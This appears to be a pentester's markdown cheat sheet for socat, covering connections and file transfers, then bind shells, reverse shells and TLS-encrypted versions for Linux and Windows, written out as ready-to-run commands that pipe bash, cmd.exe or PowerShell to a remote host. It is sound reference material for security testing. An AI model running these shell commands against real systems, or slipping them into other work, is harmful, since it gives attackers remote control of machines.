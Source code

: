 ## socat - SOcket CAT

Establishes two bidirectional byte streams and transfers data
between them.  Like netcat but has more features

### Overview

The basic usage of socat is:

`socat ADDRESS1[:PARAMS][,options] ADDRESS2[:PARAMS][,options]`

socat uses addresses as the cornerstone of the command.  Running socat requires at least 2 addresses to be specified, which can be IO (STDOUT, STDIN, STDIO), IP's (TCP4,OPENSSL), etc.  

Each address is followed by 0 or more required parameters to describe the address, separated by colons.  For instance, TCP4 requires an IP and port, so a full address specification would look like this `TCP4:1.1.1.1:443`. 

Address descriptors are then followed by 0 or more address options, separated by commas.  One of those options is the `fork` command, which is used on the server to cause any incoming connections to spawn a child process to handle incoming connections, which allows socat to handle multiple connections as well as continue running once a connection ends (rather than automatically exiting).

Socat establishes two unidirectional bytestreams between the two addresses.  For the first stream, the first address descriptor describes the data source and the second describes the data sink.  For the second bytestream, it is reversed with the second address as the data source and the first address as the data sink.  The `-u` option opens only the first bytestream, which ensures that the first address can be only be used for reading and the second address can only be used for writing.

### Basic Connections

#### Server

```bash
sudo socat TCP4-LISTEN:443 STDOUT
# Options
TCP4-LISTEN		# Listen on a port using IPv4
STDOUT			# Connects STDOUT to the TCP socket
```

#### Client

```bash
# Examples
# Connect to remote server
socat - TCP4:1.1.1.1:443
# Options
-	# Synonym for STDIO, which you could put at the end instead.
TCP4:1.1.1.1:443	# This list of Address Types is listed in a colon-delimited list specifying the address type, remote IP, and remote port

```

Note: Root privileges are required to bind to any port below 1024.



### File Transfers

#### Server

```bash
sudo socat TCP4-LISTEN:443,fork file:INFILE
# Options 
fork	# Used with TCP4-LISTEN, spawns a child process to send the file
```

#### Client

```bash
socat TCP4:1.1.1.1:443 file:OUTFILE,create
```

When a client receives the file, it will close the connection automatically.  The server will remain up (because of fork) and ready to transfer the file to any other clients requesting it.  

### Bind Shell

Note that Windows and Linux behave differently here when specifying the bind shell, as seen in the examples, but specified below:

For Linux:  `EXEC:/bin/bash`

For Windows:  `EXEC:cmd.exe,pipes`  OR `EXEC:powershell.exe,pipes`

To highlight these differences, I've noted in the code if it was for Windows or Linux.

#### Server

```bash
# Windows
socat -d -d TCP4-LISTEN:443,fork EXEC:cmd.exe,pipes
# Options
-d -d 	# increases verbosity (shows fatal, error, warning, and notice messages)
fork 			# Spawns a child process for connections 
EXEC:cmd.exe,pipes # Sends cmd shell to client (redirects all STDin/out/err to client)
```

#### Client

```bash
# Linux
socat TCP4:1.1.1.1:443 STDOUT
# Options
STDOUT	# Connects standard output to the TCP socket
		# I'm pretty sure you could also use - for STDIO
```



### Reverse Shell

#### Server

```bash
# Windows
socat -d -d TCP4-LISTEN:443 STDOUT
# Options
-d -d 	# increases verbosity (shows fatal, error, warning, and notice messages)
STDOUT	# Connects standard output to the TCP socket
```

#### Client

```bash
# Linux
socat TCP4:1.1.1.1:443 EXEC:/bin/bash
# Options
EXEC:/bin/bash	# Sends a bash shell to the server (reverse)
```



### Encrypted Bind Shell

Socat transfers everything in plaintext.  Naturally this is not safe when transferring sensitive information during a pentest.  

<u>Note: You must first generate a self-signed certificate and convert it to PEM format with openssl.  Then the listener will use the PEM certificate to encrypt the connection.</u>

#### Server

```bash
# Linux
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
#Options
-d -d 			# Extra verbosity
OPENSSL-LISTEN	# Creates an SSL socket
cert=file.pem	# Specifies PEM certificate
verify=0		# Disables SSL verification
fork 			# Spawns a child process for connections
EXEC:/bin/bash	# Sends bash shell to client

```

#### Client

```bash
# Windows
socat - OPENSSL:1.1.1.1:443,verify=0
# Options
-	# Synonym for STDIO
```



### Encrypted Reverse Shell

#### Server

```bash
# Linux
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT
```

#### Client

```bash
# Windows
socat OPENSSL:1.1.1.1:443,verify=0 EXEC:cmd.exe,pipes

```

